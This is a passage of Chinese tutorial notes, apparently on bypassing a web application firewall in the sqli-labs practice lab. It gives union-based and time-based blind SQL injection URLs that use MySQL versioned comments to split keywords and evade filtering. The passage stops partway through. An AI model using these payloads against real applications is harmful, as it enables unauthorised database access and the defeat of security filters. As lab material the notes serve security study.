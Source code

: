 ### 1.1.2.1 联合查询

提交条件注释

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union/*!11440select*/ 1,2,3 --+
```

> 成功绕过

查询用户名

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union/*!11440select*/ 1,user(),3 --+
```

> 发现被拦截

添加注释

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union/*!11440select*/ 1,user/*!11440*/(),3 --+
```

> 成功绕过
>
> 不可用注释将关键词拆分

### 1.1.2.2 时间盲注

提交时间盲注

```
http://192.168.186.129/sqli-labs/Less-1/?id=1 and if(ascii(substr(database(),1))>115,1,sleep(3)) --+
```

> 发现被拦截

逐个删除判断拦截条件

```
http://192.168.186.129/sqli-labs/Less-1/?id=1 and if(
```

> 因此拦截条件为 `and if(`

添加条件判断注释

```
http://192.168.186.129/sqli-labs/Less-1/?id=1 /*!11440and*/ if(
```
